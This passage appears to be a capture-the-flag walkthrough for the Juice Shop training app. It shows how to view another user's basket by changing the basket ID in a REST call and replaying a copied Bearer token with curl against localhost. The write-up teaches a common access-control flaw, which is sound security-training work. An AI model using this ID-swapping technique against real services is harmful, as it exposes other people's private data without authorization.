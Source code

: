 Again, the hint is really helpful here:

```
Have an eye on the HTTP traffic while shopping. Alternatively try to find client-side association of users to their basket. Click for more hints.
```

If we poke around in the Network tab of the inspector while visiting our basket
we see the following XHR connections made:

```
http://localhost:3000/rest/user/whoami
http://localhost:3000/rest/basket/1
http://localhost:3000/rest/admin/application-configuration
```

The `http://localhost:3000/rest/basket/1` URL looks most interesting for this
challenge. Let's try and grab another user's bucket:

```
$ curl -s 'http://localhost:3000/rest/basket/2'
<html>
...
  </head>
  <body>
    <div id="wrapper">
      <h1>Juice Shop (Express ~4.16)</h1>
      <h2><em>401</em> UnauthorizedError: No Authorization header was found</h2>
      <ul id="stacktrace"></ul>
    </div>
  </body>
</html>
```

If we look carefully at the connections in the Network tab in the inspector
we can see they include an `Authorization` header. We can grab the header from
the inspector and try again:

```
$ curl -s 'http://localhost:3000/rest/basket/2' -H 'Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBqdWljZS1zaC5vcCIsInBhc3N3b3JkIjoiMDE5MjAyM2E3YmJkNzMyNTA1MTZmMDY5ZGYxOGI1MDAiLCJjcmVhdGVkQXQiOiIyMDE4LTAxLTAzIDIwOjE4OjAzLjg1NCArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDE4LTAxLTAzIDIwOjE4OjAzLjg1NCArMDA6MDAifSwiaWF0IjoxNTE1MDEyMjc4LCJleHAiOjE1MTUwMzAyNzh9.GyvuBD6CTsQqE8sr7TX2a7WB4dOUTPnW58GoxuODaJzEEMAr8mtiIsFjY1Vwo9JRhWP4krbn1djXDfs7NP0D8qi2ybfcuwSBiFp2NROce9TpIcSG9jUj8OPlLsoR7dJBkPfhjN4LF111Qtl0HX1YlSYRdITSMj9ybvbRmQ_YgKo'
{"status":"success","data":{"id":2,"coupon":null,"createdAt":"2018-01-03T20:18:03.861Z","updatedAt":"2018-01-03T20:18:03.861Z","UserId":2,"Products":[{"id":4,"name":"Raspberry Juice (1000ml)","description":"Made from blended Raspberry Pi, water and sugar.","price":4.99,"image":"raspberry_juice.jpg","createdAt":"2018-01-03T20:18:03.856Z","updatedAt":"2018-01-03T20:18:03.856Z","deletedAt":null,"BasketItem":{"id":4,"quantity":2,"createdAt":"2018-01-03T20:18:03.861Z","updatedAt":"2018-01-03T20:18:03.861Z","BasketId":2,"ProductId":4}}]}}
```

Let's make that a bit more readable:

```
$ curl -s 'http://localhost:3000/rest/basket/2' -H 'Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwiZW1haWwiOiJhZG1pbkBqdWljZS1zaC5vcCIsInBhc3N3b3JkIjoiMDE5MjAyM2E3YmJkNzMyNTA1MTZmMDY5ZGYxOGI1MDAiLCJjcmVhdGVkQXQiOiIyMDE4LTAxLTAzIDIwOjE4OjAzLjg1NCArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDE4LTAxLTAzIDIwOjE4OjAzLjg1NCArMDA6MDAifSwiaWF0IjoxNTE1MDEyMjc4LCJleHAiOjE1MTUwMzAyNzh9.GyvuBD6CTsQqE8sr7TX2a7WB4dOUTPnW58GoxuODaJzEEMAr8mtiIsFjY1Vwo9JRhWP4krbn1djXDfs7NP0D8qi2ybfcuwSBiFp2NROce9TpIcSG9jUj8OPlLsoR7dJBkPfhjN4LF111Qtl0HX1YlSYRdITSMj9ybvbRmQ_YgKo' | python -mjson.tool
{
    "data": {
        "Products": [
            {
                "BasketItem": {
                    "BasketId": 2,
                    "ProductId": 4,
                    "createdAt": "2018-01-03T20:18:03.861Z",
                    "id": 4,
                    "quantity": 2,
                    "updatedAt": "2018-01-03T20:18:03.861Z"
                },
                "createdAt": "2018-01-03T20:18:03.856Z",
                "deletedAt": null,
                "description": "Made from blended Raspberry Pi, water and sugar.",
                "id": 4,
                "image": "raspberry_juice.jpg",
                "name": "Raspberry Juice (1000ml)",
                "price": 4.99,
                "updatedAt": "2018-01-03T20:18:03.856Z"
            }
        ],
        "UserId": 2,
        "coupon": null,
        "createdAt": "2018-01-03T20:18:03.861Z",
        "id": 2,
        "updatedAt": "2018-01-03T20:18:03.861Z"
    },
    "status": "success"
}
```

And the challenge is complete!
